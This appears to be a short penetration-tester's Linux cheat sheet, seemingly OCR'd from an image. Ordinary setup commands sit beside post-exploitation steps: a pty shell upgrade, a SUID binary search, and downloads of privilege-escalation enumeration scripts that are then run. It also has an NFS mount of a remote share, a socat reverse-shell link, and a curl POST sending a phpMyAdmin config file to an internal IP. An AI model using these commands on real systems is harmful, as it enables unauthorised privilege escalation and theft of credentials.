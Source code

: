 Screen Resolution

xrandr

xrandr -s HHHHxWWW


dpkg-reconfigure tzdata


apt-get install xdotool

apt-get install wicd-gtk


python -c 'import pty;pty.spawn("/bin/bash")'

stty -echo

dpkg --get-selections | grep deinstall


find / -user root -perm -4000 -print > 4000.txt

curl -O http://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz
tar xzfv unix-privesc-check-1.4.tar.gz
cd unix-privesc-check-1.4
chmod +x unix-privesc-check
./unix-privesc-check detailed > out.txt
grep WARNING out.txt

curl -O https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh



nfspy -o server=192.168.1.124:/home,hide,allow_other,ro,intr /mnt
fusermount -u /mnt


https://github.com/cornerpirate/socat-shell

Post with curl
curl -X POST -F "file=./phpmy/config.inc.php" http://192.168.118.196/test.php

